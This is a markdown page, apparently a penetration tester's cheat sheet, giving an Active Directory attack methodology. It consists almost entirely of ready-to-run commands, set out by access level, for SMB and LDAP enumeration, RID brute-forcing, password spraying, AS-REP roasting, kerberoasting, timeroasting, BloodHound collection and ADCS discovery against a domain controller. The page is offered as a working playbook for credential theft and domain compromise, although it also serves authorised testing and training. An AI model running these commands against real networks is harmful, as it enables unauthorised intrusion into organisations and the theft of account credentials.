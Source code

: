 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Active Directory Methodology

## No credentials

### Enumeration

```sh
nxc smb $TARGET
enum4linux -a $TARGET
nmap -n -sV --script "ldap* and not brute" -p 389 $DC_IP
ldapsearch -x -H $DC_IP -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr $DOMAIN @$DC_IP
```
{% endcode %}

### Shares

```sh
nxc smb $DC_IP -u '' -p '' --shares
nxc smb $DC_IP -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb $DC_IP --users
nxc smb $DC_IP --rid-brute 10000
```
{% endcode %}

```sh
kerbrute userenum -d $DOMAIN $USERS_FILE
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py $DC_IP
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb $DC_IP -u $USERS_FILE -p $PASSWORDS_FILE --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREP Roast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap $DC_IP -u $USERS_FILE -p '' --asreproast $OUTPUT_FILE
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetNPUsers.py $DOMAIN/ -usersfile $USERS_FILE
```
{% endcode %}

### Blind kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth $ASREP_USER -usersfile $USERS_FILE -dc-host $DC_IP $DOMAIN/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb $DC_IP -u $USERNAME -p $PASSWORD --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb $DC_IP -u $USERNAME -p $PASSWORD -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py $USERNAME:$PASSWORD>@$DC_IP
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d $DOMAIN -u $USERNAME -p $PASSWORD [-ns $DC_IP] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u $DOMAIN\$USERNAME -p $PASSWORD -o $OUTPUT_FOLDER $DC_IP
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u $USERNAME@$DOMAIN -p $PASSWORD -dc-ip $DC_IP -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```sh
nxc ldap $DC_IP -u $USERNAME -p $PASSWORD --kerberoasting $OUTPUT_FILE
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN/$USERNAME:$PASSWORD
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```sh
sudo ntpdate $DC_IP
```
{% endcode %}
{% endhint %}

